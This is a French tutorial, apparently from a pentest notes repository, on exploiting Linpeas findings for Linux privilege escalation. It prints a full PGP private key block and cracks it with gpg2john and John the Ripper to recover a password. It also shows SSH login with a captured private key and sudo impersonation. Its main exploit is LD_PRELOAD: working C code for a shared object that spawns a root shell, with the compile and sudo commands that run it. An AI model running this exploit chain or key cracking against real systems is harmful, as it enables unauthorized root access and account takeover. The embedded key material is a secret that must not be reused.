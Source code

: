 # 2. Exploiter les données de Linpeas

Nous verrons comment exploiter les données de Linpeas au travers d'exemples.

## Récupérer une clé PGP

Parfois, certaines clé pgp, utile pour se connecter a un ftp sans mot de passe, est possible d'accès par un utilisateur possédant des droits inférieurs.

```console
> cat key
-----BEGIN PGP PRIVATE KEY BLOCK-----

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
=7Uo6
-----END PGP PRIVATE KEY BLOCK-----
```

Nous pouvons maintenant utiliser `JohnTheRipper` pour cracker le mot de passe.
Avant d'utiliser John, nous devons convertir la clé dans un format crackable par `JohnTheRipper`.

```bash
gpg2john key > gpg.john
```

Nous allons utiliser un liste de mot de passe pour cracker ce mot de passe.

```console
$ john -w=/usr/share/wordlists/rockyou.txt gpg.john
[...]
blink182         (user)
[...]
```

Nous avons donc maintenant le mot de passe de ce compte et pouvons donc se connecter en ssh.

## Récupérer une clé privée openssh

Une clé privée openssh est tout simplement un mot de passe en quelque sorte. L'avoir signifie donc que l'on a accès au compte qui utilise cette clé. 
Pour l'utiliser il suffit d'utiliser cette commande:

```bash
ssh -i cleprivee.file username@x.x.x.x
```

Si la console indique un problème de permissions, exécutez la commande suivante:

```bash
chmod 600 cleprivee.file
```

## usurpation de privilege 

```bash
sudo -u user fichier
```

Cette commande nous permet d'usurper les privilège d'un compte avec des droits supérieurs.

## Variable d'environment `LD_Preload`

Les bibliothèques partagées sont des bibliothèques qui sont chargées par les programmes lorsqu'ils démarrent. Lorsqu'une bibliothèque partagée est installée correctement, tous les programmes qui démarrent par la suite utilisent automatiquement la nouvelle bibliothèque partagée.

Chaque bibliothèque partagée a un nom spécial appelé "soname". Le soname est composé du préfixe "lib", du nom de la bibliothèque, de `".so"`, suivie d'un point et d'un numéro de version.

Les programmes ld.so et ld-linux.so* recherchent et chargent les objets partagés (bibliothèques partagées) nécessaires à un programme, préparent le programme à s'exécuter, puis l'exécutent.

LD_Preload : Il s'agit d'une variable d'environnement qui répertorie les bibliothèques partagées dont les fonctions remplacent l'ensemble standard, tout comme le fait /etc/ld.so.preload. Ces fonctions sont implémentées par le chargeur /lib/ld-linux.so

Il est important que l'utilisateur connecté ait des droits sudo, c'est pourquoi nous avons donné des droits sudo au programme `/usr/bin/find` qui sera exécuté par l'utilisateur sudo. Mais en dehors de cela, il existe une spécification par défaut où vous pouvez définir une variable d'environnement pour fonctionner comme sudo.

Pour ce faire, suivez les étapes ci-dessous :

- Ouvrez le fichier /etc/sudoers en tapant visudo

- Maintenant, donnez des droits sudo à un utilisateur, dans notre cas "user" sera membre de sudoers.

```bash
user ALL=(ALL:ALL) NOPASSWD : /usr/bin/find
```

- Ajoutez ensuite ce qui suit comme spécification par défaut pour définir l'environnement de LD_preload.

```bash
Defaults env_keep += LD_PRELOAD
```

Tapez la commande sudo -l pour détecter si cette vulnérabilité est présente.

Créons un fichier C dans le répertoire /tmp.

```C
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD") ;
    setgid(0) ;
    setuid(0) ;
    system("/bin/sh") ;
}
```

Sauvegardez-le ensuite sous le nom de shell.c dans /tmp.

Compilons-le pour générer un objet partagé avec l'extension .so, tout comme le fichier .dll dans le système d'exploitation Windows, et tapons donc ce qui suit :

```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

```console
$ ls -al shell.so
-rwxrwxr-x 1 user user 6416 Jun 13 22:50 shell.so
$ sudo LD_PRELOAD=/tmp/shell.so find
# id
# whoami
```

Nous avons obtenu l'accès ROOT.
